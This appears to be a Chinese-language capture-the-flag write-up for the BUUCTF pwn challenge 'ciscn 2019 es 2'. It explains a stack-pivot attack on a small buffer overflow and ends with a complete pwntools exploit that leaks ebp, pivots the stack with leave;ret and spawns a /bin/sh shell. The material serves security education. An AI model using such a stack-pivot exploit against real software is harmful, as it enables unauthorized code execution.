```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 es 2
date: 2022-3-24 7:17:03
permalink: /pages/2e1547494524d193
tags: 
  - buuctf
  - pwn
  - 栈迁移
---
```


# ciscn 2019 es 2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_es_2/ciscn_2019_es_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

vul函数如下

```c
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

hack函数如下

```c
int hack()
{
  return system("echo flag");
}
```

## 思路分析

1. 目前信息：
   - `vul`函数有溢出漏洞，但仅能覆盖到`ebp`与`return address`
   - `plt`表内有`system`
   - 无后门函数
   - No PIE
2. 思路：
   - 溢出长度仅够修改`ebp`与`return address`，考虑栈迁移的手法，将栈迁移到别的区域，本题第一次`printf`可泄漏`ebp`，并且在`s`处可两次写入，选择迁移栈至`s`处

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_es_2/ciscn_2019_es_2'
# io = remote('node4.buuoj.cn', 27712)
io = process(pwnfile)
elf = ELF(pwnfile)
io.recv()
payload = flat(['a'*0x24, 'b'*4])
# 利用printf函数\x00结束的特性 将s到ebp之间填充字符以泄漏ebp
io.send(payload)
io.recvuntil('bbbb')
ebp = u32(io.recv(4))
success('rbp :'+hex(ebp))
offset = 0x38
write_stack_addr = ebp-offset
# 迁移至栈上s起始的区域,采用相对定位确定位置
system_addr = elf.plt['system']
leave_ret_addr = 0x080485FD
payload = flat([write_stack_addr+0x100, system_addr,0xdeadbeef, write_stack_addr+16, '/bin/sh\x00'])
# 字符串/bin/sh按照位置写入了write_stack_addr+16地址处
payload = payload.ljust(0x28, b'\x00')
payload += flat([write_stack_addr, leave_ret_addr])
io.send(payload)
io.interactive()
```